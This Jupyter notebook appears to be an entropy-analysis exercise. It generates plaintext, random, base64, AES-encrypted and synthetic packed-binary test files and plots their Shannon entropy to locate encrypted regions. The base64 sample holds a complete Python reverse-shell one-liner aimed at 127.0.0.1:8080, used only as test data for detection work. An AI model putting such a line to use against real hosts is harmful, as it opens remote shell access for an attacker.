In [70]:
# Create some random data in multiple forms!
import random
import string
import base64
import struct
import os
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad

plaintext = ""
for i in range(1024*64):
        plaintext += random.choice(string.ascii_letters)

with open('plaintext.txt','w') as f:
    f.write(plaintext)

with open('raw.txt','wb') as f:
    f.write(os.urandom(1024*64))

with open('base64.txt','wb') as f: # just a generic python revshell, not real 
    b64 = b"""export RHOST="127.0.0.1";export RPORT=8080;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'"""
    b64 = base64.encodebytes(b64)
    f.write(b64)

with open('aes.txt','wb') as f:
    key = b'CryptographicKey'
    cipher = AES.new(key, AES.MODE_EAX)
    ct_bytes = cipher.encrypt(pad(bytes(plaintext,'utf-8'), AES.block_size))    
    f.write(ct_bytes)

def generate_synthetic_malware(
    filepath,
    total_size=64*1024,
    num_encrypted_blocks=2,
    block_size_range=(2048, 8192),
    seed=None
):
    """
    Generates a synthetic binary that mimics a packed/malware-like executable:
    - Realistic low-entropy code sections (structured opcodes)
    - High-entropy encrypted/compressed blobs
    - Zero-padded alignment gaps
    - A minimal fake PE-style header
    """
    if seed is not None:
        random.seed(seed)

    def fake_pe_header(size=512):
        """MZ + DOS stub + minimal PE signature, rest is structured noise"""
        header = bytearray(size)
        header[0:2] = b'MZ'                          # DOS magic
        struct.pack_into('<H', header, 0x3C, 0x40)   # PE offset pointer
        header[0x40:0x44] = b'PE\x00\x00'            # PE signature
        # fill rest with low-entropy structured bytes (repeated patterns)
        for i in range(0x44, size):
            header[i] = (i * 3 + 0x41) % 128
        return bytes(header)

    def fake_code_section(size):
        """
        Mimics x86 bytecode: structured, repetitive, entropy ~4.5-5.5
        Uses a weighted distribution skewed toward common opcode bytes
        """
        common_opcodes = [
            0x55, 0x89, 0x8B, 0x83, 0xE8, 0xFF, 0x74, 0x75,
            0x50, 0x51, 0x52, 0x53, 0x5D, 0xC3, 0x90, 0x00
        ]
        weights = [8, 8, 7, 6, 5, 5, 4, 4, 3, 3, 3, 3, 3, 4, 2, 6]
        return bytes(random.choices(common_opcodes, weights=weights, k=size))

    def fake_encrypted_block(size):
        """Truly uniform random bytes — AES ciphertext-like, entropy ~7.99"""
        return os.urandom(size)

    def fake_zero_padding(size):
        """Section alignment padding, entropy ~0"""
        return b'\x00' * size

    def fake_data_section(size):
        """Strings, imports, config — moderate entropy ~3.5-5.0"""
        charset = (
            list(range(0x20, 0x7E)) * 6 +   # printable ASCII (weighted up)
            list(range(0x00, 0x20)) * 2 +   # control chars
            list(range(0x80, 0xFF)) * 1     # high bytes (sparse)
        )
        return bytes(random.choices(charset, k=size))

    encrypted_offsets = []
    layout = []
    cursor = 0

    # 1. Fake PE header
    header = fake_pe_header(512)
    layout.append(('header', header))
    cursor += len(header)

    # 2. Code section
    code_size = total_size // 4
    layout.append(('code', fake_code_section(code_size)))
    cursor += code_size

    # 3. Data section
    data_size = total_size // 8
    layout.append(('data', fake_data_section(data_size)))
    cursor += data_size

    # 4. Scatter encrypted blocks with padding between them
    remaining = total_size - cursor
    for i in range(num_encrypted_blocks):
        # padding before encrypted block
        pad_size = random.randint(256, 1024)
        pad_size = min(pad_size, remaining // (num_encrypted_blocks - i + 1))
        layout.append(('padding', fake_zero_padding(pad_size)))
        cursor += pad_size
        remaining -= pad_size

        # encrypted block
        enc_size = random.randint(*block_size_range)
        enc_size = min(enc_size, remaining // (num_encrypted_blocks - i + 1))
        encrypted_offsets.append((cursor, cursor + enc_size))
        layout.append(('encrypted', fake_encrypted_block(enc_size)))
        cursor += enc_size
        remaining -= enc_size

    if remaining > 0:
        layout.append(('code', fake_code_section(remaining)))

    with open(filepath, 'wb') as f:
        for _, chunk in layout:
            f.write(chunk)

    print(f"Generated: {filepath}  ({cursor} bytes)")
    print(f"Layout sections:")
    offset = 0
    for name, chunk in layout:
        print(f"  [{offset:>8} - {offset+len(chunk):>8}]  {name:<12}  ({len(chunk)} bytes)")
        offset += len(chunk)
    print(f"Encrypted block offsets: {encrypted_offsets}")
    return encrypted_offsets

generate_synthetic_malware('synth_malware')

Generated: synth_malware  (38723 bytes)
Layout sections:
  [       0 -      512]  header        (512 bytes)
  [     512 -    16896]  code          (16384 bytes)
  [   16896 -    25088]  data          (8192 bytes)
  [   25088 -    25739]  padding       (651 bytes)
  [   25739 -    31775]  encrypted     (6036 bytes)
  [   31775 -    32697]  padding       (922 bytes)
  [   32697 -    38723]  encrypted     (6026 bytes)
  [   38723 -    65536]  code          (26813 bytes)
Encrypted block offsets: [(25739, 31775), (32697, 38723)]


[(25739, 31775), (32697, 38723)]

In [ ]:
import math

def entropy(data):
    """
    Implements the actual shannon entropy calculation
    H(X) = -∑[P(xi) * log(P(xi))]
    """
    if not data:
        return 0.0

    counts = {}
    for c in data:
        counts[c] = counts.get(c,0) + 1

    total = len(data)

    return -sum(
        (freq / total) * math.log2(freq / total)
        for freq in counts.values()
    )

def sliding_entropy(filepath, window=1024, step=64):
    with open(filepath, "rb") as f:
        data = f.read()

    return [
        entropy(data[i:i + window])
        for i in range(0, len(data) - window + 1, step)
    ]

def block_entropy(filepath, block_size=1024):
    with open(filepath, "rb") as f:
        data = f.read()
    
    scores = []
    l = len(data)
    for i in range(0, l, block_size):
        if (l - i) > (block_size // 2): # ended up deciding on cutting trailing blocks with < 50% block size
            scores.append(entropy(data[i:i + block_size]))

    return scores

def file_entropy(filepath):
    with open(filepath,"rb") as f:
        data = f.read()
    
    return entropy(data)

def byte_distribution(data):
    counts = {}
    for c in data:
        counts[c] = counts.get(c,0) + 1
    total = len(data)
    return {byte: count / total for byte, count in sorted(counts.items())}

print("Plain:",sliding_entropy('plaintext.txt',1024))
print("Completely random:",block_entropy('raw.txt',1024))
print("Encoded:",sliding_entropy('base64.txt'))
print("Encrypted:",sliding_entropy('aes.txt',1024))
print("This file:",sliding_entropy('entropyProject.ipynb',1024))

Plain: [5.666993409582265, 5.662506252762414, 5.660993487424177, 5.655494533225551, 5.659121633084023, 5.66188359018639, 5.6569725783898335, 5.6585767076288755, 5.659342827936024, 5.660769579690429, 5.655125657675198, 5.656528185851488, 5.658181615516676, 5.662348393358262, 5.661808441149859, 5.658998166619884, 5.6597544025333075, 5.659422741264007, 5.658086718580328, 5.666275120041793, 5.668983743992778, 5.669170302829231, 5.663822729457533, 5.6629818533547045, 5.66150993899382, 5.661370118445474, 5.657516894750128, 5.65677474980151, 5.654566026807984, 5.652711440645498, 5.654811156195461, 5.656897509663238, 5.65963921521028, 5.667562461896191, 5.66447229134381, 5.663476979238068, 5.66745829060385, 5.670430961013315, 5.673578885379132, 5.675719928963948, 5.6742189659639095, 5.669148229520394, 5.67387189781291, 5.670136663368121, 5.665769438822743, 5.6680901576437615, 5.66851165868654, 5.666976339868327, 5.671276887706355, 5.674007833353194, 5.678016477506589, 5.6761660151222735, 5.674





In [73]:
import matplotlib.pyplot as plt

def plot_entropy(filepath, window=1024, step=None):
    if window is not None:
        if step is not None:
            scores = sliding_entropy(filepath, window, step)
        else:
            scores = block_entropy(filepath, window)
    else:
        print(file_entropy(filepath))
        return

    offsets = [i * window for i in range(len(scores))]
    
    padding = 0.1
    data_min = min(scores)
    data_max = max(scores)
    spread = data_max - data_min or 0.5  # avoid zero spread on flat data
    
    plt.figure(figsize=(14, 3))
    plt.fill_between(offsets, scores, alpha=0.6)
    plt.axhline(7.5, color='red', linestyle='--', label='Encryption threshold')
    plt.ylim(data_min - spread * padding, data_max + spread * padding)
    plt.xlabel("File offset (bytes)")
    plt.ylabel("Shannon entropy (bits)")
    plt.title(f"{'Sliding' if step else 'Block'} entropy — {filepath}")
    plt.legend()
    plt.tight_layout()
    plt.show()

plot_entropy('synth_malware')
plot_entropy('synth_malware',step=64)